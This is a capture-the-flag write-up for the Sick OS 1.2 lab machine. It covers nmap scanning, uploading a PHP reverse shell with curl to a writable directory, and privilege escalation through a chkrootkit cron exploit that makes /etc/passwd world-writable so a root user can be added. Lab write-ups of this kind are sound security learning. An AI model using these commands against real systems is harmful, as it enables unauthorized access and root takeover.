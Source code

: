 # Sick OS 1.2 write Up 

## Getting the target IP, I used arp-scan 

> Target ip: 192.168.100.10

## Network Scanning and Exploitation 

```bash

┌──(kali㉿kali)-[~/Desktop/Machines_WriteUps/Sick0s1_2]
└─$ nmap -sV -sC 192.168.100.10 -p- -o nmap_full_scan 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-22 05:36 EDT
Nmap scan report for 192.168.100.10
Host is up (0.0027s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 66:8c:c0:f2:85:7c:6c:c0:f6:ab:7d:48:04:81:c2:d4 (DSA)
|   2048 ba:86:f5:ee:cc:83:df:a6:3f:fd:c1:34:bb:7e:62:ab (RSA)
|_  256 a1:6c:fa:18:da:57:1d:33:2c:52:e4:ec:97:e2:9e:af (ECDSA)                                                                      
80/tcp open  http    lighttpd 1.4.28                                                                                                 
|_http-server-header: lighttpd/1.4.28
|_http-title: Site doesn't have a title (text/html).
MAC Address: 08:00:27:36:FF:D2 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 170.52 seconds

```

Here only 2 ports are open 22 and 80 22 does not seems to have vulnearability, lets access the port 80 using browser

![homepage](screenshots/homepage.png)

It has nothing interesting, lets use GoBuster to find the hidden dir's and got only one enpoint that is `/test/` 

On navigating, `/test/` I got the following page:
![/test/ page](screenshots/test_page.png)

Here I got no hints, but their is indcation of `lighttpd/1.4.28` and when I searched for it in exploit-db I got the following vulnearbility in the following version.

![vulnearability in version](screenshots/upload.png)

So here I got vulnearability that I can upload the file here,so here I will upload a php reverse shell file and take the reverse shell connection

```bash
curl --upload-file rev.php -v -url http://192.168.100.10/test/
```

### Here, I got the reverse shell
![reverse shell](screenshots/shell.png)

## Enumeration

While Enumerating, I found the chkrootkit in cron daily jobs and when I check its version I got the [exploit](https://www.exploit-db.com/exploits/33899) for it on exploit-db, now I will follow the steps that are on exploit-db.

```bash

cd /tmp

echo "chmod 777 /etc/passwd" > update
# adding the content into update file to give full access of /etc/passwd file to all users 

chmod 777 update
# To make the update file executable

# After some minutes, we will can see that the permissions of /etc/passwd has changed.

www-data@ubuntu:/tmp$ ls -alh /etc/passwd
-rwxrwxrwx 1 root root 953 Apr 12  2016 /etc/passwd

```

Now we need to append out user with password and root Privileges 

```bash

┌──(kali㉿kali)-[~/Desktop/Machines_WriteUps/Sick0s1_2]
└─$ sudo openssl passwd -6 --salt furkan 123456
[sudo] password for kali: 
$6$furkan$Rz7O5q5PRbGnyQb.umIQKjXwE2v2U1LZWYbooA3xnJ4ZQiRpuy1g4mCSK/6pFsPdjMBNkuXU2iEJoEoSUqx.0.

# For generating the hash password for our user
```

```bash
echo 'bob:$6$furkan$Rz7O5q5PRbGnyQb.umIQKjXwE2v2U1LZWYbooA3xnJ4ZQiRpuy1g4mCSK/6pFsPdjMBNkuXU2iEJoEoSUqx.0.:0:0:root:/root:/bin/bash' >> /etc/passwd

# Appending our user `bob` with root Privileges
```

### Privilege Escalation

Lets, try logging in as bob

![flag](screenshots/flag.png)

## Here I got root access, and  the flag🚩 